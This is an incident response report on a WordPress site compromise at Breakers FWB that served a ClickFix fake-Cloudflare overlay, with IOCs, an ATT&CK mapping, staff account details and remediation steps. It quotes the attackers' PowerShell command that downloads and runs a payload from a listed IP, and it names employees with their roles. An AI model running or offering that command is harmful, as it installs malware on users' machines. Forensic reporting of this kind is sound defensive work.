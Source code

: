 ## Incident Response Report – Breakers FWB Website Compromise
*9 Sept 2025, K. Tonkin & R. Halim*

## Executive Summary
On September 5, 2025, the Breakers FWB website (```https://www.breakersfwb.com```) was found to be compromised and actively serving a ClickFix-style social engineering campaign. Malicious JavaScript was injected into the site, overlaying a fake Cloudflare “verification” page hosted on ```ncloud.icu``` via a dynamically loaded <iframe>. This page mimicked legitimate security checks but was designed to exploit users’ instinct to “fix” perceived issues—hallmarks of the ClickFix technique.

The fraudulent overlay instructed users to press Win+R and Ctrl+V to paste a PowerShell command copied to their clipboard: ```powershell -w h -nop -c iex(iwr -Uri 155[.]94[.]155[.]25 -UseBasicParsing)``` This command downloaded additional payloads from ```155.94.155.25```, consistent with ClickFix campaigns that rely on human interaction to bypass automated defenses

Investigation showed evidence of:
- Server-side injection of obfuscated JavaScript redirectors.
- External calls to malicious domains (getfix.win, ncloud.icu).
- Exposure of WordPress user accounts (admin, ethanwhited, barbara).
- SEO spam posts created Sept 3–4, 2025, unrelated to Breakers’ business.

The compromise likely originated from vulnerable WordPress plugins or weak credentials, and the site was repurposed as a malware distribution platform.ntials.

---

## Indicators of Compromise (IOCs)

| Type      | Value / Indicator                                                                 | Notes |
|-----------|------------------------------------------------------------------------------------|-------|
| Domain    | `getfix.win`                                                                      | Primary malicious script delivery |
| Domain    | `ncloud.icu`                                                                      | Iframe redirector domain |
| Domain    | `2no.co`                                                                          | Used in injected iframe chain |
| IP        | `155.94.155.25`                                                                   | PowerShell download host |
| Path      | `/wp-json/wp/v2/users`                                                            | Publicly exposes WordPress user list |
| Script    | Malicious `<script>` block in `<body>` calling `getfix.win/jsrepo?...`             | Injected server-side |
| Spam URLs | `/island-blog/casino-site-payment-methods-in-canada...` (and similar gambling posts)| Created Sept 3–5, 2025 |

---

## MITRE ATT&CK Mapping

| ATT&CK Tactic      | Technique ID | Technique Name                                | Observed Example |
|--------------------|--------------|-----------------------------------------------|------------------|
| Initial Access     | T1190        | Exploit Public-Facing Application             | Likely WordPress plugin exploit (Photo Gallery, Gravity Forms, Streamline Core) |
| Execution          | T1059.001    | Command and Scripting Interpreter: PowerShell | Fake Cloudflare page copied malicious command to clipboard |
| Persistence        | T1078        | Valid Accounts                                | WordPress users ```admin```, ```ethanwhited```, ```barbara```, possibly others |
| Defense Evasion    | T1027        | Obfuscated Files or Information               | Obfuscated injected JavaScript (```_0x32f8cc```, ```cxhrz``` loops) |
| Credential Access  | T1110        | Brute Force                                   | Risk to exposed ```admin``` account |
| Impact             | T1499        | Endpoint Denial of Service                    | Browser crashpad / spawned processes observed in sandbox |

---

## Compromised / Suspicious User Accounts

During investigation, several WordPress accounts were discovered that appear linked to real Breakers staff as well as a visible administrator account. This dramatically increases risk, since attackers leveraging these accounts could blend in with normal operations.

| User ID | Username       | Observations                                                                 |
|---------|----------------|-------------------------------------------------------------------------------|
| 1       | ```admin```        | Default WordPress admin, publicly exposed via ```/wp-json/wp/v2/users```. Target for brute force. Should be disabled. |
| 8       | ```barbara```      | Barbara Martens, listed on LinkedIn as General Manager at The Breakers. Active author profile at ```/island-blog/author/barbara/```. A high-privilege staff account, very likely targeted or compromised. |
| 12      | ```ethanwhited```  | Ethan Whited, listed on LinkedIn as Rental Manager at The Breakers. Legitimate staff identity, may have been abused to publish content or perform admin actions. |

### Risks
- Credential compromise: Attackers may have obtained staff credentials via phishing, reuse, or brute-force.  
- Abuse of legitimacy: Posts created under real employee names or administrators look legitimate to visitors.  
- Persistence: Even if malicious code is cleaned, attackers could return using valid staff logins.  

### Recommended Actions
1. Immediately reset passwords for all WordPress accounts (staff + admin).  
2. Audit user activity (login IPs, post creation, plugin changes) for ```admin```, ```barbara```, and ```ethanwhited```.  
3. Disable the default ```admin``` account permanently.  
4. Require 2FA for staff (Barbara, Ethan, etc).  
5. Review if staff email accounts (O365/Gmail) show signs of compromise. If email accounts exist on a personal device, verifiy integrity of personal accounts as well.

---

## Root Cause Analysis
- Entry vector is not fully confirmed.  
- Most probable: exploitation of a vulnerable plugin (Photo Gallery, Gravity Forms, or Streamline Core).  
- Once access was gained, attackers injected malicious JavaScript into theme/plugin files or database options.  
- Attackers also published SEO spam posts to increase persistence and site abuse value.  
- Exposed ```/wp-json``` API revealed usernames, increasing brute force risk.  

---

## Recommended Actions

### Immediate Containment
- Take site offline or place in maintenance mode.  
- Block IOCs (```getfix.win```, ```ncloud.icu```, ```2no.co```, ```155.94.155.25```) at firewall, DNS, and WAF.  
- Export WordPress database and filesystem for forensic preservation.  

### Eradication
- Search and remove injected ```<script>``` calls (especially ```getfix.win``` and ```ncloud.icu```) in:
  - Theme files ( such as ```header.php```, ```footer.php```, ```functions.php```, and more)  
  - WordPress options table (```wp_options``` → ```siteurl```, ```home```, or injected widgets)  
- Delete all spam posts/pages.  
- Remove or disable the ```admin``` account. Confirm no hidden users exist.  
- Restore from a pre-Sept 2, 2025 backup if possible.  
- Update WordPress core and all plugins.  

### Recovery & Hardening
- Reset all credentials (WP Admins, hosting panel, SFTP, SSH, database).  
- Restrict uploads: disallow ```.php``` execution in ```wp-content/uploads/```.  
- Enforce a strict Content-Security-Policy (CSP) to block unauthorized scripts.  
- Enable WAF / IDS (WP Engine + Cloudflare).  
- Monitor WordPress logs (Stream plugin, server access logs) for suspicious logins.  
- Enable 2FA for all user accounts.  

---

## Conclusion
This incident reflects a textbook implementation of the ClickFix social engineering technique. The attackers exploited Breakers FWB’s WordPress vulnerabilities to inject malicious scripts and launch a deceptive “verification” overlay. This overlay mimicked legitimate services and instructed users to run clipboard-injected PowerShell commands—an approach designed to bypass automated defenses by relying on human interaction1.

The site was not merely defaced—it was weaponized as a malware distribution hub. Remediation must include full restoration, credential resets, and hardening against reinfection. Ongoing monitoring and user education are critical to prevent future ClickFix-style attacks.not fully remediated.

---

## References
https://www.microsoft.com/en-us/security/blog/2025/08/21/think-before-you-clickfix-analyzing-the-clickfix-social-engineering-technique/

https://www.fortinet.com/blog/threat-research/clickfix-to-command-a-full-powershell-attack-chain

https://www.hhs.gov/sites/default/files/clickfix-attacks-sector-alert-tlpclear.pdf

